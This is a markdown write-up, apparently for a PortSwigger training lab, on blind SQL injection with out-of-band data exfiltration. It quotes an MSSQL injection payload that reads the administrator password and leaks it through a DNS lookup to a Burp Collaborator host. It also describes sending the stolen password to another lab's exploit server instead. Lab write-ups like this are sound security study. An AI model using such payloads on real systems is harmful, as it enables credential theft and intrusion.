 # Blind SQL injection with out-of-band data exfiltration

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

## Definition
Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:
```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the Administrator user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password: `S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work. 

## Notes
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the `password` of the **administrator** user.

To solve the lab, log in as the **administrator** user.

**Exploitation**  

Theoretically, this lab can be solved using the **burp-collaborator** feature only. But this is not exactly true. It is possible to achieve the same result doing a request to a URL inside of the same network of this lab, in other words, another lab where we can track which requests were made.

On the [2FA simple bypass](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass) lab there is an exploit server interface where you can craft an URL and observe all HTTP request made for it in the log section. This feature is located inside the email client page.

The image below shows an example of how to configure the exploit URL. The only important thing is to let uncheck the HTTPS option. Probably there's no route mapping to HTTPS locally between the services

![Exploit URL Configuration](images/image01.png)  

The next step is to test the communication between the two labs. The figure below presents a payload that calls the exploit URL using the same `XXE` principle used in the previous lab:

![PoC](images/image02.png)

In the logs section of the exploit server, is possible to observe the request made to the URL from another machine:

![PoC Confirmation](images/image03.png)  

The following images show how to get the administrator password and pass it as a path parameter to the exploit server:

![Extracting Password](images/image04.png)

![Password Exfiltrated](images/image05.png)

![Lab Solved](images/image06.png)

## Key Words
> sql injection, blind, out-of-band, oast, avoid collaborator, communication beween labs
